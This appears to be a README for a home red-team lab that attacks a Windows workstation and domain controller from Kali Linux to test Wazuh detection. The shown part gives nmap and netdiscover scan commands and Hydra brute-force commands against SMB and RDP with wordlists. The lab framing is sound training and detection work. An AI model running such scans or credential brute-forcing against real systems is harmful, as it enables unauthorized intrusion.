 #  Red Team — Enterprise Cybersecurity Lab

This section documents simulated attacks executed against an enterprise environment using Kali Linux. These scenarios reflect common tactics from adversaries, including brute-force, remote code execution, and lateral movement. The goal is to demonstrate real-world offensive techniques and validate their detection by Blue Team tools such as **Wazuh**.

---

##  Lab Environment

| Hostname      | Role              | OS             | IP Address |
|---------------|-------------------|----------------|------------|
| kali-attacker | Red Team Attacker | Kali Linux     | 10.0.0.50  |
| client-win    | Workstation       | Windows 11     | 10.0.0.101 |
| win-server    | Domain Controller | Windows Server | 10.0.0.10  |

---

##  Objectives

- Simulate real-world attack paths on Windows infrastructure.
- Test the visibility and detection capabilities of Wazuh.
- Document MITRE ATT&CK mappings for each step.
- Propose defensive strategies based on findings.

---

##  Attack Scenarios

### 1. Network Reconnaissance

**Tools**: `netdiscover`, `nmap`  
**Purpose**: Identify live hosts, open ports, and OS fingerprints.

bash
netdiscover -r 10.0.0.0/24
nmap -sS -sV -O -T4 10.0.0.0/24

### 2. SMB & RDP Brute Force
Tool: Hydra
Target: client-win
Protocols: SMB & RDP
Wordlists: SecLists

bash
Copy
Edit
hydra -L users.txt -P passwords.txt smb://10.0.0.101
hydra -L users.txt -P passwords.txt rdp://10.0.0.101

